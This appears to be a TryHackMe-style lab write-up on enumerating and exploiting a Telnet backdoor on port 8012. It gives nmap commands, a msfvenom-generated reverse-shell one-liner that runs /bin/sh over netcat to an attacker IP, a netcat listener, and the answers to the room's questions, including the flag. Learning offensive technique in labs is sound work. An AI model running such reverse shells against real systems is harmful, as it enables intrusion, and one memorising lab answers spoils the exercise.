 # Telnet  

Ports: 23

- *Application protocol* (largely replaced by SSH due to lack of encryption)  
- Transmits data in **clear text** (no encryption)  

**Basic Connection:**  
```bash 
telnet <ip> <port>
```  

#### Solutions:

1. What is Telnet?
```plaintext
application protocol
```

2. What has slowly replaced Telnet?
```plaintext
ssh
```

3. How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?
```bash
telnet 10.10.10.3 23
```

4. The lack of what means that all Telnet communication is in plaintext?
```plaintext
encryption
```
## Enumerating Telnet  

#### Port Scanning  
```bash 
nmap -vv -Pn -p- <target ip>
```  

**Key Insight:**  
- Telnet on **non-standard ports** won’t appear in Nmap’s default top 1000 scan.  
- Always scan all ports (`-p-`) for thorough enumeration.  
- `-A` for aggressive scanning and useful NSE scripts tested

```bash
nmap -vv -A -oN scanport <target ip>
```

**Useful Resources:**  
- [CVE Details](https://www.cvedetails.com/)  
- [MITRE CVE Database](https://cve.mitre.org/)  

#### Solutions:

1. How many **ports** are open on the target machine?
```plaintext
1
```

2. What **port** is this?
```plaintext
8012
```

3. This port is unassigned, but still lists the **protocol** it's using, what protocol is this?
```plaintext
tcp
```

4. Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?
```plaintext
0
```
 
(This is because telnet is running on a non-standard port 8012 which is beyond the 1000 standard ports and hence won't appear in a standard nmap scan which only scans for 1000 ports)

5. Based on the title returned to us, what do we think this port could be **used for**?
```plaintext
a backdoor
```

(we can find this out by doing an aggressive scan - it returns a string which says "SKIDY'S BACKDOOR")

6. Who could it belong to? Gathering possible **usernames** is an important step in enumeration.
```plaintext
Skidy
```
## Exploiting Telnet  

#### Basic Access  
```bash 
telnet <ip> <port>
```  

 Understanding Shells  
- **Shell**: Code that enables command execution on a target device.  
- **Reverse Shell**: Target machine initiates a connection back to the attacker’s listening machine.  

Manual Command Execution  

Inside Telnet:  
```telnet 
.RUN <command>  # Commands must be prefixed with `.RUN`
```  

**Example: Testing Connectivity**  
1. **Attacker (Listening):**  
   ```bash 
   sudo tcpdump ip proto \\icmp -i tun0  # Monitor ICMP traffic
   ```  
2. **Telnet Session:**  
   ```telnet 
   .RUN ping [attacker_ip] -c 1  # Send ping to attacker
   ```  

**Gaining a Reverse Shell**  
###### Step 1: Generate Payload (Metasploit)  
```bash 
msfvenom -p cmd/unix/reverse_netcat lhost=[your_ip] lport=4444 R
```  
- **Output Example:**  
  ```bash 
  mkfifo /tmp/kcvzv; nc 10.23.108.250 4444 0</tmp/kcvzv | /bin/sh >/tmp/kcvzv 2>&1; rm /tmp/kcvzv
  ```  

###### Step 2: Start Listener  
```bash 
nc -lvnp 4444  # Attacker listens for connection
```  

###### Step 3: Execute Payload via Telnet  
```telnet 
.RUN mkfifo /tmp/kcvzv; nc 10.23.108.250 4444 0</tmp/kcvzv | /bin/sh >/tmp/kcvzv 2>&1; rm /tmp/kcvzv
```  

**Successful Connection:**  
![[Pasted image 20250513003824.png]]  
#### Solutions:

1. What welcome message do we receive?
```plaintext
SKIDY'S BACKDOOR
```

2. Do we get a return on any input we enter into the telnet session? (Y/N)
```plaintext
N
```

3. Use the command "ping [local THM ip] -c 1" through the telnet session (prefaced with .RUN). Do we receive any pings? (Y/N)
```plaintext
Y
```

4. What word does the generated payload start with?
```plaintext
mkinfo
```

5. What would the command look like for the listening port we selected in our payload?
```bash
nc -lvnp 4444
```

6. What is the contents of flag.txt?
```plaintext
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
